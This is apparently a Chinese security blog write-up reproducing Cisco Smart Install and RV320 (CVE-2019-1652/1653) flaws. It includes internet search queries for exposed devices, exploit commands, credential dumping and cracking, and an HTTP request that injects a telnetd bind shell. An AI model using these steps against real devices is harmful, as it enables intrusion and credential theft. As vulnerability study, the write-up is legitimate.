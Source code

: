 ```yaml
---

title: "cisco设备信息泄漏漏洞案例"
date: 2022-10-21T12:00:00+08:00
draft: false
author: "r0fus0d & k1t9meo"
tags: test2

---
```


近期遇到了几个cisco配置信息泄漏的案例，借此机会复现下cisco常见的几个漏洞。

{{% admonition info "info" %}}
本文首发 合天网安 https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA
{{% /admonition %}}

<!--more-->

---

## cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放4786端口的cisco设备，那可以深入测试一下。

fofa 语句 *protocol="smi"*

![Untitled](../../img/cisco-case/Untitled.png)

影响目标还挺多的

```
git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit
cd CiscoSmartInstallExploit
pip2 install tftpy
python2 cisco.py [ip]
```

注意用python2运行,运行成功会下载目标的运行配置

![Untitled](../../img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL配置，ftp配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

```
git clone https://github.com/frostbits-security/ccat.git
cd ccat
pip3 install -r requirements.txt
python3 ccat.py configuration_file
```

![Untitled](../../img/cisco-case/Untitled%202.png)

我们可以使用 **--dump-creds** 参数dump出账号密码

![Untitled](../../img/cisco-case/Untitled%203.png)

文件名m500的可以用hashcat -m 500的掩码进行爆破,5700同理

![Untitled](../../img/cisco-case/Untitled%204.png)

---

## CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app="CISCO-RV320”

对应poc

```
ip:port/cgi-bin/config.exp
```

![Untitled](../../img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和md5的密码,不过md5的格式为 `md5($password.$auth_key)`，其中 auth_key 是一个静态值，可以通过直接访问 / 路径找到。

![Untitled](../../img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和md5的密码后可以通过替换登录包的hash进行登录,无需解密

![Untitled](../../img/cisco-case/Untitled%207.png)

![Untitled](../../img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github上的利用poc由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

```
POST /certificate_handle2.htm?type=4 HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 319

page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b
```

payload执行后会用telnet在本地监听1337口

连接验证

![Untitled](../../img/cisco-case/Untitled%209.png)

---

## 总结

1. cisco设备国内互联网公司和企事业用的不多，近年来都被国产品牌替换了。
2. python的poc经常会遇到一些历史遗留问题，比如tls版本过低，依赖库安装报错不兼容等等问题，建议还是用go写poc，利人利己。
